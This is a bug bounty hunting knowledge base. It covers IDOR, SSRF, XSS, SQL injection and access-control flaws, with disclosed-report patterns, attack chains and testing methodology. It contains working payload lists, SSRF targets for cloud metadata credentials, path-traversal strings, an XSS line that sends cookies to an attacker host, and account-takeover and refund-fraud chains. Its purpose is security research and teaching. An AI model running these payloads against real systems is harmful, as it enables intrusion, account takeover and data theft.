# Bug Bounty Knowledge Base

Learnings from disclosed reports, articles, and real-world findings. Use this as reference before hunting.

---

#### IDOR Patterns
| Program | Bug | Root Cause | Payout | Lesson |
|---------|-----|------------|--------|--------|
| Uber | IDOR in ride history | No ownership check on /api/v1/rides/{id} | $10,000 | Always check if endpoint validates resource ownership |
| Coinbase | IDOR in account recovery | Sequential user IDs in reset flow | $25,000 | Test all HTTP methods, not just GET |
| Shopify | IDOR in store exports | Missing auth on /admin/export/{id} | $8,000 | Check admin endpoints for auth consistency |
| GitLab | IDOR in project import | No ownership validation on import tokens | $5,000 | Import/export features often skip auth |
| Yahoo | IDOR in contact deletion | DELETE endpoint missing ownership check | $2,500 | Test destructive operations carefully |

#### Auth Bypass Patterns
| Program | Bug | Root Cause | Payout | Lesson |
|---------|-----|------------|--------|--------|
| Uber | JWT algorithm confusion | RS256→HS256 attack | $15,000 | Always test JWT algorithm changes |
| Snapchat | OAuth token theft via redirect | Open redirect in OAuth flow | $7,500 | Chain open redirect with OAuth for ATO |
| GitLab | 2FA bypass via API | API endpoint skipped 2FA check | $10,000 | Mobile/API often have different auth paths |
| Slack | Session fixation | Session not regenerated after login | $4,000 | Test session handling across login flow |
| HackerOne | Password reset poisoning | Host header used in reset link | $3,000 | Always test Host/X-Forwarded-Host injection |

#### SSRF Patterns
| Program | Bug | Root Cause | Payout | Lesson |
|---------|-----|------------|--------|--------|
| GitLab | SSRF via webhook URL | No validation on webhook destination | $20,000 | Webhooks = SSRF goldmine |
| HackerOne | SSRF via file import | URL fetched during document import | $15,000 | Import from URL features always SSRF |
| Shopify | SSRF via avatar URL | Profile picture URL not validated | $10,000 | Test all URL input fields |
| PortSwigger | SSRF via PDF generator | HTML-to-PDF conversion fetches internal URLs | $12,000 | PDF generators often SSRF |
| Uber | SSRF via link preview | URL preview fetched server-side | $5,000 | Link preview = SSRF |

#### XSS Patterns
| Program | Bug | Root Cause | Payout | Lesson |
|---------|-----|------------|--------|--------|
| Shopify | Stored XSS in product description | No sanitization on HTML fields | $8,000 | Test all rich text inputs |
| HackerOne | DOM XSS via URL fragment | Location.hash reflected in innerHTML | $5,000 | Check all DOM sinks |
| GitLab | XSS in markdown rendering | Markdown parser allows script tags | $6,000 | Markdown rendering = XSS risk |
| Slack | XSS via custom emoji name | Emoji name not sanitized | $3,000 | Test all custom naming fields |
| Yahoo | XSS in search parameter | Search query reflected without encoding | $2,500 | Test search/reflection points |

#### Race Condition Patterns
| Program | Bug | Root Cause | Payout | Lesson |
|---------|-----|------------|--------|--------|
| HackerOne | Double-spend via race | TOCTOU in credit redemption | $10,000 | Test concurrent requests on financial ops |
| Shopify | Coupon race condition | No atomic check-deduct | $8,000 | Coupon/promo = race target |
| GitLab | Race in file upload | Multiple uploads bypass size limit | $4,000 | Upload features often raceable |
| Uber | Race in fare calculation | Price lock not atomic | $6,000 | Financial calculations = race window |
| PayPal | Race in payment processing | Double-submit race | $15,000 | Payment flows always race-test |

#### Business Logic Patterns
| Program | Bug | Root Cause | Payout | Lesson |
|---------|-----|------------|--------|--------|
| Uber | Price manipulation | Negative distance in fare calculation | $12,000 | Test negative values in all fields |
| Shopify | Discount stacking | No limit on coupon combinations | $10,000 | Test discount/coupon stacking |
| GitLab | Feature bypass | Feature flag check client-side only | $8,000 | Client-side checks = bypassable |
| HackerOne | Workflow skip | Step validation missing | $5,000 | Test skipping steps in multi-step flows |
| Bitcoin | Decimal precision | Division before multiplication | $20,000 | Test edge cases in math operations |

---

#### HTTP Request Smuggling
```
1. CL.TE: Content-Length (frontend) vs Transfer-Encoding (backend)
2. TE.CL: Transfer-Encoding (frontend) vs Content-Length (backend)
3. H2.CL: HTTP/2 downgrade smuggling
4. TE obfuscation: xchunked, tab prefix, space prefix
Impact: Cache poisoning, XSS at scale, credential theft
```

#### Web Cache Poisoning
```
1. Find unkeyed headers (X-Forwarded-Host, X-Original-URL)
2. Inject malicious payload in unkeyed header
3. Cache serves poisoned response to all users
Impact: XSS at scale, credential theft, malware distribution
```

#### Prototype Pollution
```
1. Find merge/extend functions without protection
2. Inject __proto__ parameter with malicious properties
3. Pollution leads to XSS or RCE
Impact: XSS, RCE on Node.js applications
```

#### SSRF Bypass Techniques
```
1. DNS rebinding: First check = external, fetch = internal
2. Redirect chain: Follow redirects to bypass URL filters
3. Protocol smuggling: gopher://, dict://, file://
4. IP obfuscation: Decimal, hex, octal, IPv6
5. URL parser confusion: Different parsers parse differently
Impact: Internal network access, cloud metadata, RCE
```

#### OAuth Attacks
```
1. Missing state parameter = CSRF on OAuth
2. Open redirect in redirect_uri = ATO
3. PKCE bypass = code theft
4. Implicit flow = token leakage in referrer
Impact: Account takeover via OAuth code interception
```

#### SQL Injection (SQLMap Patterns)
```
1. Error-based: Divide by zero reveals SQL structure
2. Blind: Time-based confirmation (SLEEP, WAITFOR)
3. Union-based: Determine column count
4. Stacked queries: Execute multiple statements
5. Out-of-band: DNS/HTTP exfiltration
Impact: Data exfiltration, authentication bypass, RCE
```

#### Deserialization Attacks
```
1. Java: ysoserial gadget chains (CommonsCollections, Spring)
2. PHP: phpggc tool (Laravel, Symfony, Monolog)
3. Python: pickle RCE payloads
4. Ruby: Marshal.load RCE
5. .NET: Json.net, BinaryFormatter
Impact: Remote code execution
```

---

### Chain 1: Recon → Path Traversal → Credential Leak → RCE ($40K)
```
1. Subdomain returns 404 (most hunters skip)
2. Fuzz paths → /admin/ discovered
3. /download/ endpoint found (empty 200 response)
4. Fuzz for parameters → filename parameter discovered
5. Limited path traversal → /WEB-INF/web.xml disclosed
6. web.xml reveals /incident-report endpoint
7. Real-time log download → admin credentials found
8. Login with credentials → Groovy console access
9. Groovy console executes commands but no output
10. Chain: download fresh logs → RCE output found
Impact: Full server takeover
Lesson: Never stop at first bug, chain low-severity findings
```

### Chain 2: JWT Manipulation → Auth Bypass → File Overwrite ($23K)
```
1. JWT realm manipulation = admin panel UI access ($3K)
2. Severity downgraded (UI only, no API access)
3. Don't give up, keep digging
4. Found /upload endpoint (403 response)
5. Bearer removal bypass = full admin API access
6. File upload to S3 with destination parameter
7. Arbitrary file overwrite on CloudFront
8. Can modify JS/HTML/EXE/PDF served via CloudFront
9. RCE on user machines via malicious EXE/PDF
Impact: Full compromise of all users
Lesson: Never give up when severity is downgraded
```

### Chain 3: IDOR → Privilege Escalation → Data Exfil ($15K)
```
1. Regular user endpoint: GET /api/v1/users/{id}/profile
2. Change user_id to admin ID → IDOR found
3. Admin profile contains API keys
4. Use API keys to access admin endpoints
5. Admin endpoints expose all user data
6. Data exfil of 100K+ user records
Impact: Mass data breach
Lesson: IDOR + admin = critical chain
```

### Chain 4: Open Redirect → OAuth Theft → ATO ($10K)
```
1. Found open redirect: /redirect?url=evil.com
2. OAuth flow uses redirect parameter
3. Craft: /redirect?url=https://attacker.com/callback
4. Victim clicks link → redirected to attacker
5. OAuth code captured at attacker callback
6. Exchange code for access token
7. Full account takeover
Impact: Complete account compromise
Lesson: Open redirect alone = low, with OAuth = critical
```

### Chain 5: SSRF → Cloud Metadata → RCE ($25K)
```
1. Found SSRF in webhook URL parameter
2. Test cloud metadata: http://169.254.169.254/latest/meta-data/
3. Metadata accessible → IAM credentials found
4. Use IAM credentials to access S3
5. S3 contains application source code
6. Source code reveals database credentials
7. Database contains user password hashes
8. Crack hashes → admin password found
9. Full infrastructure compromise
Impact: Complete cloud infrastructure takeover
Lesson: SSRF → cloud metadata = critical chain
```

---

### XSS Payloads (from disclosed reports)
```javascript
// Polyglot (works in multiple contexts)
'-prompt.call(window,%20'xss_found")-

// CSP bypass


// Angular template injection
{{constructor.constructor('alert(1)')()}}

// mXSS (mutation-based)
<noscript><p title="</noscript>">

// Event handler bypass
<svg/onload=alert(1)>
<details open ontoggle=alert(1)>
<body onload=alert(1)>
```

# Cloud metadata
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Internal services
http://localhost:6379      # Redis
http://localhost:9200      # Elasticsearch
http://localhost:2375      # Docker API

# IP obfuscation
http://2130706433          # decimal
http://0177.0.0.1          # octal
http://0x7f.0x0.0x0.0x1   # hex
http://127.1               # short form
http://[::1]               # IPv6
```

### SQLi Payloads (from disclosed reports)
```sql
' OR '1'='1
' UNION SELECT NULL--
'; WAITFOR DELAY '0:0:5'--
' AND SLEEP(5)--
' AND 1=dbms_pipe.receive_message('a',5)--
```

### Path Traversal Payloads (from disclosed reports)
```bash
../../../etc/passwd
....//....//....//etc/passwd
..%2F..%2F..%2Fetc%2Fpasswd
/etc/passwd%00.jpg
/WEB-INF/web.xml
```

---

### @albinowax (PortSwigger)
> "The most impactful bugs come from understanding how the application processes input at each layer. Don't just test the endpoint — test the entire request lifecycle."

### @filedescriptor
> "Prototype pollution is everywhere in Node.js. If you find a merge function without protection, you're one step away from XSS or RCE."

### @orange_8361
> "The best bugs are found when you understand the developer's intent better than they do. Think about what shortcuts they took."

### @jaborratti
> "Don't just run tools. Understand what each tool does and why it's looking for specific patterns. Manual testing finds what automation misses."

### @steventoth
> "Chaining low-severity bugs is the key to finding critical vulnerabilities. One bug alone may be nothing, but combine them and you have gold."

---

### 1. Not Reading Scope
```
WRONG: Start testing without reading scope
RIGHT: Read every in-scope asset, note out-of-scope items
```

### 3. Stopping at First Bug
```
WRONG: Find path traversal, report immediately
RIGHT: Find path traversal, chain with credential leak, report RCE
```

### 4. Ignoring 404 Responses
```
WRONG: 404 = not found, move on
RIGHT: 404 on subdomain may have active services, fuzz paths
```

### 5. Not Testing POST Methods
```
WRONG: ffuf defaults to GET, only test GET
RIGHT: Test POST, PUT, DELETE methods too
```

### 6. Reporting Low-Severity Findings Alone
```
WRONG: Report clickjacking on login page
RIGHT: Chain clickjacking with OAuth for account linking = Critical
```

### 7. Not Reading JavaScript Files
```
WRONG: Skip JS files, they're just frontend code
RIGHT: Read JS files thoroughly, they reveal endpoints and logic
```

### 8. Giving Up When Downgraded
```
WRONG: Severity downgraded, give up
RIGHT: Severity downgraded means you're close, dig deeper
```

---

### When to Use Each Tool
| Situation | Tool |
|-----------|------|
| Subdomain enumeration | subfaster, assetfinder, amass |
| Live host detection | httpx, dnsx |
| Directory fuzzing | ffuf, gobuster |
| Parameter discovery | arjun, paramspider |
| JS analysis | SecretFinder, jsluice |
| SQL injection | sqlmap |
| XSS scanning | dalfox, XSStrike |
| SSRF testing | interactsh, collaborator |
| Secret scanning | trufflehog, gitleaks |
| Nuclei templates | nuclei |

### Priority Checklist
```
[ ] Read scope and disclosed reports
[ ] Create temp emails for multi-account testing
[ ] Enumerate subdomains
[ ] Filter unique subdomains
[ ] Fuzz directories and parameters
[ ] Read JavaScript files
[ ] Test authentication flows
[ ] Test IDOR with two accounts
[ ] Test SSRF in all URL inputs
[ ] Chain low-severity findings
[ ] Write clear report with PoC
```


### From `hunt-skills/hunt-idor/SKILL.md`

## Crown Jewel Targets

**Why IDOR pays big:**
- Direct access to other users' data without authentication bypass — clear, demonstrable impact
- Chains easily with privilege escalation, financial fraud, and account takeover
- Affects virtually every application with user-owned resources

**Highest-value asset types (by payout potential):**

| Asset Type | Why It Pays |
|---|---|
| Financial documents / billing APIs | PII + financial data exposure (Shopify, Uber, PayPal) |
| Private repositories / source code | IP theft, critical data loss (GitHub) |
| User messages / DMs | Privacy violation at scale (Reddit) |
| Account management endpoints | User addition, deletion, privilege escalation (PayPal, Mozilla) |
| Business/org administration | Cross-tenant escalation, employee PII (Uber) |
| Content moderation/admin actions | Operational sabotage (Reddit mod logs) |

**Programs that pay most for IDOR:**
- Platforms with multi-tenancy (SaaS, B2B tools)
- Fintech and payment processors
- Social platforms with private content
- Developer tools with org/repo isolation

---

## Attack Surface Signals

**URL patterns that scream IDOR:**
```
/api/v1/users/{id}/
/api/v*/orders/{order_id}
/invoices/download?id=
/reports/{uuid}/
/messages/{thread_id}
/admin/orgs/{org_id}/members
/migration/{migration_id}/files
/graphql (query params with IDs)
/api/business/{business_id}/
/vouchers/{voucher_id}/policy
```

**Response header signals:**
- `Content-Type: application/json` on endpoints accepting raw IDs
- No `X-Frame-Options` or CORS misconfigs paired with ID params
- `Authorization: Bearer` tokens that are user-scoped but hit org-level resources

**JavaScript source patterns:**
```javascript
// Look for hardcoded or interpolated IDs in JS
fetch(`/api/v1/users/${userId}/profile`)
axios.get('/invoices/' + invoiceId)
graphql query { billingDocument(id: $docId) }
// Redux/state stores exposing foreign IDs
state.currentUser.organizationId
```

**Tech stack signals:**
- GraphQL endpoints (query-based IDORs are often missed)
- REST APIs with sequential integer IDs (most vulnerable)
- UUIDs that are predictable or leaked in other responses
- Multi-tenant SaaS apps with `org_id`, `account_id`, `business_id` params
- Mobile apps (Burp the APK — mobile APIs often skip authorization checks)

---

## Step-by-Step Hunting Methodology

1. **Map all object references in the application**
   - Browse every feature authenticated as User A
   - Capture all requests in Burp Suite
   - Filter for requests containing: `id=`, `_id=`, `uuid=`, `/v1/{noun}/{id}`, query params with numeric/UUID values

2. **Enumerate ID types**
   - Sequential integers → enumerate ±1, ±100
   - UUIDs → check if they appear in other responses or JS files
   - Hashed IDs → check if leaked in public endpoints, metadata, or GraphQL introspection

3. **Create two separate accounts (same privilege level)**
   - User A: resource owner
   - User B: attacker account
   - Log all IDs belonging to User A while authenticated as User A

4. **Replay User A's resource IDs as User B**
   - Replace session cookie/token with User B's credentials
   - Send identical requests referencing User A's object IDs
   - Test ALL HTTP verbs: GET, POST, PUT, PATCH, DELETE on each endpoint

5. **Test cross-tenant/cross-org scenarios**
   - Create accounts in separate organizations/businesses
   - Test if Org B's session can reference Org A's IDs
   - Pay special attention to admin/management endpoints

6. **Test GraphQL specifically**
   - Run introspection: `{ __schema { queryType { fields { name } } } }`
   - For every query/mutation taking an `id` argument, substitute another user's ID
   - Test both queries (read) and mutations (write/delete)

7. **Test write/destructive operations, not just reads**
   - Can User B DELETE User A's resources?
   - Can User B MODIFY User A's content?
   - Can User B ADD themselves to User A's account?

8. **Chain IDORs together**
   - Use one IDOR's leaked data (org IDs, user IDs) to fuel the next
   - IDOR → leaked ID → second IDOR → privilege escalation

9. **Test state-changing edge cases**
   - Expired tokens/invites that can still be accepted
   - Race conditions on resource IDs
   - Indirect references: `?sort=id` or `?filter[user_id]=`

10. **Document the exact differential**
    - Confirm User B has NO legitimate access to User A's resource
    - Screenshot/log the 200 OK vs expected 403/404

---

# Find object references in API responses
curl -s -H "Cookie: session=USER_A" \
  https://target.com/api/v1/dashboard | python3 -m json.tool | grep -i "_id"
```

**Grep patterns for source code review:**
```bash

# Missing authorization checks in common frameworks
grep -r "findById\|findOne\|getById" --include="*.js" .
grep -r "params\[:id\]\|params\['id'\]" --include="*.rb" .
grep -r "request\.args\.get\('id'\)" --include="*.py" .

# Look for direct ORM queries without user scoping
grep -r "Model\.find(params" --include="*.js" .

# vs secure pattern: Model.find({ id: params.id, userId: req.user.id })
```

**IDOR via HTTP method tampering:**
```bash

## Common Root Causes

1. **Missing ownership check in ORM queries**
   ```javascript
   // VULNERABLE: fetches any record
   const invoice = await Invoice.findById(req.params.id);
   
   // SECURE: scopes to authenticated user
   const invoice = await Invoice.findOne({ _id: req.params.id, userId: req.user.id });
   ```

2. **Authorization at the route level, not object level**
   - Developer checks "is user logged in?" but not "does this user own this object?"
   - Middleware confirms authentication; individual handlers skip ownership validation

3. **Trusting client-supplied IDs in request bodies**
   - Mobile apps or SPAs send `org_id` in POST body; server uses it directly without verifying caller belongs to that org

4. **GraphQL resolvers without field-level authorization**
   - Query resolvers fetch by ID from database without checking if the requesting user has permission
   - Especially common when resolvers are auto-generated from schema

5. **Inconsistent authorization across HTTP verbs**
   - GET endpoint is protected; POST/DELETE on same resource path is not
   - Common in APIs built incrementally by different developers

6. **Indirect references exposed via related objects**
   - Object A (accessible) contains a reference to Object B (should be private)
   - Developer only protects direct access to B, not indirect references through A

7. **Race conditions and state-based IDORs**
   - Authorization checked at creation time, not at access time
   - Invites/tokens remain valid after the granting permission is revoked

8. **Multi-tenant isolation failures**
   - Developers implement per-user access control but forget cross-org boundaries
   - `user_id` check present; `org_id` / `tenant_id` check absent

---

## Bypass Techniques

**Defense: UUIDs instead of sequential integers**
- Bypass: UUIDs often leak in other API responses, notification emails, webhooks, GraphQL queries, or JS source
- Technique: Harvest UUIDs from accessible endpoints, then replay against restricted ones

**Defense: Indirect/hashed object references**
- Bypass: Decode the hash (often base64 or simple obfuscation), or find the original ID in another response
- Technique: `echo "dXNlcl8xMjM0NQ==" | base64 -d` → `user_12345`

**Defense: Short-lived tokens per resource**
- Bypass: Tokens sometimes reusable across users if server only validates token format, not binding
- Technique: Use your own token to access another user's resource ID

**Defense: Rate limiting on enumeration**
- Bypass: Slow enumeration (1 req/5s), use distributed IPs, or exploit non-enumeration IDORs (you already know the target's ID from another leak)

**Defense: Checking `user_id` in WHERE clause**
- Bypass: Check if the same endpoint exists at a different API version (`/v1/` vs `/v2/`) — authorization logic is often version-specific
- Technique: Check JS bundles for older API version calls

**Defense: CORS restrictions**
- Bypass: IDOR doesn't require cross-origin exploitation — you're testing API endpoints directly with your own session

**Defense: "Opaque" references via server-side sessions**
- Bypass: Look for any endpoint that *returns* the internal ID, then use it elsewhere; APIs often expose IDs in `Location` headers, error messages, or metadata

**Defense: Parameter filtering/WAF on common patterns**
- Bypass: Try nested JSON `{"data": {"id": "VICTIM_ID"}}`, HTTP parameter pollution `?id=own_id&id=victim_id`, or parameter name variations `user_id`, `userId`, `uid`, `account`

---

## Gate 0 Validation

Before writing the report, answer all three:

1. **What can the attacker DO right now?**
   Be specific: "Attacker with a valid account can send a GET request to `/api/v1/invoices/{victim_invoice_id}` and receive the victim's full billing document including name, address, and payment amount — without any relationship to that account."

2. **What does the victim LOSE?**
   Map to CIA triad: confidentiality (data exposed), integrity (data modified), or availability (data deleted). "Victim loses confidentiality of private financial records" or "Victim's content is deleted by a third party" — vague answers fail.

3. **Can it be reproduced in 10 minutes from scratch?**
   - Two fresh accounts created ✓
   - Exact HTTP request documented with victim's ID ✓
   - 200 OK response showing victim's data (or confirmed state change) ✓
   - No reliance on pre-existing state or timing ✓
   
   If you can't demo it reproducibly, do not file the report.

---

## Real Impact Examples

**Scenario 1: Financial Data Exposure + Cross-Account Billing Fraud (Uber-style)**
An attacker discovers two related IDORs: one allows reading any organization's voucher policy configuration (exposing org IDs, employee email lists, and payment methods), and a second allows modifying voucher policies using those leaked IDs. Chained together, this enables the attacker to redirect charges to an arbitrary business account, expose employee PII across organizations, and take over invitation links — all without any elevated privileges beyond a basic user account. Impact: financial fraud + mass PII exposure across the B2B platform.

**Scenario 2: Private Repository Read via IDOR on Migration Endpoint (GitHub-style)**
A migration feature allows users to upload files to a migration job. The `migration_id` parameter is not validated against the authenticated user's ownership. An attacker creates their own migration, observes the ID format, and substitutes another user's private migration ID — gaining read access to source code files from private repositories they have no access to. Impact: complete confidentiality bypass for private intellectual property.

**Scenario 3: Account Takeover Chain via Message IDOR (Reddit-style)**
An attacker accesses another user's private message threads by substituting their `thread_id` in a messaging API endpoint. The response includes message content, metadata, and — critically — session or verification tokens sent via internal messages. The attacker leverages the token found in the messages to perform account recovery steps, escalating a read-only IDOR into full account takeover. Impact: complete account compromise of targeted users at scale.

---

## Chains & Compositions (Senior Hunting)

Standalone IDOR gets paid at Low-Medium for cross-tenant *read*. The real money is in chaining IDOR to a *state-change* primitive that doesn't normally permit cross-tenant action — turning "I can see victim's data" into "I own victim's account". The six chains below are the highest-paying IDOR compositions on modern bug-bounty programs.

### Chain 1 — IDOR on `/api/users/{id}/email` + Missing Re-Auth → Password Reset → ATO

- **A.** Confirm IDOR on the email-change endpoint — request `PUT /api/users/{victim_id}/email {"email":"attacker@evil"}` from attacker's session; server changes the victim's email without ownership check.
- **B.** Hit the password-reset flow on the victim's account — server emails reset link to the **new** email (attacker's).
- **C.** Open reset link, set new password, log in as victim.
- **Impact:** Silent ATO — victim sees no email change notification because the change happens via API not via the user-facing "change email" UI which has its own audit log.
- **Real shape:** Classic ATO pattern across many SaaS bug-bounty disclosures 2018-2024. Cross-refs `hunt-ato` Path 2 (email change without re-auth).

### Chain 2 — IDOR on File-Download + Filename-Controlled `Content-Disposition` → Reflected-XSS-Via-Download → Session Theft

- **A.** IDOR on `/api/files/{id}/download` returns any user's file given the ID.
- **B.** The download endpoint sets `Content-Disposition: attachment; filename="<user-supplied-filename>"` without sanitising newlines or quotes — attacker uploads a file with filename `"; <script>fetch('https://attacker/x?c='+document.cookie)</script>; foo.txt`.
- **C.** Victim navigates to download → browser interprets the injected script in the response header context as HTML → JS runs same-origin → cookie/token exfil.
- **Impact:** ATO via IDOR + filename-controlled response header — neither primitive alone is critical; the chain is.
- **Real shape:** Multiple disclosed cases involving Office 365 SharePoint download endpoints, GitLab attachment downloads, SaaS export endpoints. Pairs with `hunt-xss` Chain 1 (response-header XSS class).

### Chain 3 — IDOR via GraphQL `node(id:)` GID + Relay Relation Traversal → Cross-Tenant Mass Data Extraction

- **A.** Target uses GraphQL with Relay-style global IDs (`gid://shopify/Customer/<n>` or base64-encoded `type:id` patterns).
- **B.** `node(id:"<victim_gid>") { ... on Customer { email orders { totalPrice paymentMethods { cardLast4 } } } }` — the top-level `node()` resolver auths the requester, but nested relations don't re-check ownership against the resolved Customer.
- **C.** Iterate IDs (decoding base64 to extract numeric, incrementing) to exfil emails, order totals, payment methods across the entire customer base.
- **Impact:** Mass cross-tenant PII / financial data extraction. Single bug, full database.
- **Real shape:** Shopify Billing IDOR H1 #2207248 ($5,000); HackerOne PolicyPageAssetGroup IDOR H1 #1618347 ($25,000). Cross-refs `hunt-graphql` Disclosed Report Citation #5 and #2.

### Chain 4 — IDOR on `/api/teams/{id}/members` + Mass-Assignment in Body → Role Escalation on Victim Team

- **A.** Standard horizontal IDOR — `POST /api/teams/{victim_team_id}/members {"email":"attacker@evil"}` adds attacker as a normal member without ownership check.
- **B.** The body accepts additional fields the API didn't filter: `{"email":"attacker@evil", "role":"OWNER", "permissions":["*"]}` — mass assignment leaks into the role field.
- **C.** Attacker is added to the victim team as OWNER. Now has full admin access to the victim team's resources and can remove the real owners.
- **Impact:** Cross-tenant privilege escalation via IDOR + mass assignment. The single most efficient takeover chain on SaaS team-management APIs.
- **Real shape:** Shopify undocumented `fileCopy` mutation H1 #981472 (2020, $2,000); Stripe `UpdateAtlasApplicationPerson` cross-tenant mutation H1 #1066203 (2020). Cross-refs `hunt-graphql` Disclosed Report Citation #7 and #8; pairs with `hunt-api-misconfig` Mass Assignment section.

### Chain 5 — Soft-Delete IDOR + Post-Removal Token Validity → Persistent Cross-Tenant Access

- **A.** Identify the "remove member" endpoint that flips an `active=false` flag but doesn't invalidate the session/PAT.
- **B.** Log in as the to-be-removed user; capture session cookie or PAT.
- **C.** Have the org admin remove the user via the normal flow. Wait. Re-issue API calls using the captured token — IDOR is now *temporal* (the user no longer has permission per the policy table, but the cached auth context still passes).
- **Impact:** Weeks of post-termination cross-tenant access; GDPR/CCPA breach exposure; potential extortion leverage.
- **Real shape:** Shopify removed-staff persistence class (2022). Cross-refs `hunt-misc` Chain 1 — same root cause shape, different starting primitive.

### Chain 6 — Double-IDOR (`/users/{id}/orders → /orders/{order_id}/refund`) → Financial Impact on Victim Merchant

- **A.** First IDOR: `GET /api/users/{victim_id}/orders` returns the victim's order list without ownership check — yields legitimate `order_id` values.
- **B.** Second IDOR: `POST /api/orders/{order_id}/refund` issues refunds without checking that the requester owns the merchant/order.
- **C.** Trigger refund on each of the victim merchant's recent orders. Money moves from merchant to customer (who is also attacker-controlled).
- **Impact:** Direct financial loss to the victim merchant. Mass-exploitable across the platform's merchant base.
- **Real shape:** Multiple disclosed e-commerce platform IDOR chains 2019-2023. Cross-refs `hunt-business-logic` Chain (financial impact via state-machine confusion).

### Operator-level pattern

When you confirm a read-IDOR at A, immediately ask: *what state-change accepts the same ID and might also be IDOR'd?* The chain is usually one of: (1) password reset / email change at terminal step → ATO; (2) refund / withdraw / transfer → financial; (3) role-change / membership-add → privilege escalation. If your read-IDOR doesn't compose to one of those, the standalone payout is what you get. Hunt for both halves — the second is often easier to find because it shares the same auth bug class as the first.

Cross-references:
- `hunt-ato` — Chain 1, 5
- `hunt-xss` — Chain 2
- `hunt-graphql` — Chains 3, 4
- `hunt-misc` — Chain 5
- `hunt-business-logic` — Chain 6

---

## Related Skills & Chains

- **`hunt-auth-bypass`** — Object-level authorization failure plus route-level auth absence is the canonical IDOR-amplifier. Chain primitive: missing `req.user.id` scoping in ORM query + missing middleware on legacy `/v1/` route = unauthenticated cross-tenant data read via direct ID substitution → bulk PII dump without any session at all.
- **`hunt-ato`** — Profile-edit IDOR is the most direct path from "read someone's data" to "own their account." Chain primitive: `PATCH /api/users/{victim_uid}` accepts attacker's session + victim UID → set `email=attacker@evil.com` → trigger password reset → reset link arrives at attacker → full ATO without ever knowing victim credentials.
- **`hunt-graphql`** — GraphQL resolvers without field-level authorization are IDOR-by-default; introspection hands you the schema. Chain primitive: `__schema` introspection → enumerate every mutation accepting `id:` argument → substitute victim IDs across `updateUser`, `deleteOrg`, `transferBilling` mutations → mass IDOR fan-out from one introspection query.
- **`security-arsenal`** — Pull the IDOR Bypass Tables section for HTTP-parameter-pollution payloads (`?id=own&id=victim`), nested-JSON wrappers (`{"data":{"id":"VICTIM"}}`), and parameter-name variations (`uid`/`userId`/`user_id`/`account`) when the first direct substitution returns 403.
- **`triage-validation`** — Run the Pre-Severity Gate before claiming Critical on an IDOR that returns 200 but doesn't actually leak data (empty array, redacted fields, "access denied" in body with 200 status). The 200-but-no-data IDOR is the #1 N/A driver on H1/Bugcrowd.


### From `normal-skills/broken-access-control.md`

name: broken-access-control-idor-bola
description: Comprehensive Broken Access Control testing methodology covering IDOR, BOLA, function-level access control, path traversal, forced browsing, business logic bypasses, and privilege escalation with optimized detection workflows, payload libraries, and exploitation chains.
version: 1.0.0
---

## Overview

Broken Access Control is the #1 vulnerability in the OWASP Top 10. It occurs when applications fail to properly enforce restrictions on what authenticated users are allowed to do. This skill covers the full spectrum of access control failures, from simple IDOR to complex business logic bypasses.

**Core Concepts:**
- **IDOR (Insecure Direct Object Reference):** Accessing objects by modifying user-supplied input (IDs, filenames, keys) without authorization checks
- **BOLA (Broken Object Level Authorization):** API-specific variant where object-level permissions are missing or improperly implemented
- **BAC (Broken Access Control):** Umbrella term including horizontal/vertical privilege escalation, forced browsing, and function-level bypasses
- **BLAC (Business Logic Access Control):** Workflow and state machine violations that bypass access controls through legitimate operations

**Access Control Models:**
- **DAC (Discretionary):** Resource owner decides access
- **MAC (Mandatory):** System-enforced strict hierarchy
- **RBAC (Role-Based):** Permissions tied to roles
- **ABAC (Attribute-Based):** Dynamic policies based on user/resource/environment attributes
- **PBAC (Policy-Based):** Centralized policy engine decisions

---

### 1.1 Endpoint Discovery
Map every endpoint that accepts user input that could reference objects, functions, or resources:

**Primary Targets:**
- REST API endpoints: `/api/v1/users/{id}`, `/api/v2/orders/{orderId}`
- GraphQL queries/mutations with ID arguments
- SOAP actions with object references
- WebSocket message frames containing object IDs
- gRPC methods with resource identifiers
- File download endpoints: `/download?file=`, `/export?doc=`
- AJAX endpoints returning partial data
- Mobile API endpoints (often less protected than web)
- Admin panels and management interfaces
- Batch/bulk operations endpoints

**Discovery Techniques:**
```

# Crawl and archive
gau target.com | grep -E "(api|v1|v2|graphql|rest|download|export|user|order|doc|file|id=)"
waybackurls target.com | unfurl -u paths | sort -u

# JavaScript analysis for API endpoints
grep -ohr "['\"]\/[a-zA-Z0-9_/-]*['\"]" js/ | sed "s/'//g" | sort -u
grep -ohr "fetch\|axios\|XMLHttpRequest" js/ -A 2 | grep -oP "https?://[^'\"]+|/[^'\"]+"

# OpenAPI/Swagger enumeration
/swagger-ui.html
/api-docs
/openapi.json
/swagger.json
/api/swagger.json
/?format=openapi

# Common IDOR parameter names
id, user_id, uid, uuid, guid, pid, post_id, order_id, oid, 
doc_id, file_id, msg_id, thread_id, conv_id, account_id, 
role_id, group_id, org_id, team_id, project_id, item_id, 
resource_id, object_id, target_id, parent_id, child_id, 
reference, ref, doc, filename, path, url, key, token, 
hash, checksum, index, offset, limit, page, cursor, next
```

### 1.2 Technology Fingerprinting
Identify frameworks and patterns that indicate access control implementation:

**Framework-Specific Patterns:**
- **Ruby on Rails:** `/users/1`, nested resources `/users/1/orders/2`, `friendly_id` gem
- **Django:** `/api/users/1/`, `/admin/`, predictable PKs unless UUID used
- **Laravel:** `/api/v1/users/1`, `/storage/`, route model binding
- **ASP.NET:** `/api/Users(1)`, `/odata/`, GUIDs common but check sequential
- **Spring Boot:** `/api/users/1`, `/actuator/`, common REST patterns
- **Express.js:** Highly variable, check for `req.params.id` patterns in JS
- **GraphQL:** `/graphql`, introspection queries, field-level access issues

**Database ID Patterns:**
- **Auto-incrementing integers:** `1, 2, 3...` (highly vulnerable)
- **UUID v1:** Time-based, partially predictable (check MAC address leakage)
- **UUID v4:** Random, but check if generated with weak RNG
- **UUID v7:** Time-ordered, sequential within time windows
- **ULID:** Lexicographically sortable, time-based
- **NanoID:** Check length and alphabet for predictability
- **Snowflake IDs:** Twitter-style, time-based with machine ID
- **Custom hashes:** MD5/SHA1 of sequential values, base64 encoded integers
- **Compound keys:** `user_123`, `order_456`, `org-789`

### 1.3 Authorization Architecture Analysis
Determine how the application handles authorization:

**Check for These Patterns:**
- **Client-side enforcement:** JavaScript hiding admin buttons, `disabled` attributes
- **Role indicators in tokens:** JWT claims like `role`, `is_admin`, `permissions`
- **Parameter-based roles:** `role=user`, `admin=false`, `privilege=1`
- **Header-based access:** `X-User-Role`, `X-Original-User`, `X-Admin`
- **Session-based only:** No per-request object authorization
- **CORS misconfiguration:** `Access-Control-Allow-Origin: *` with credentials
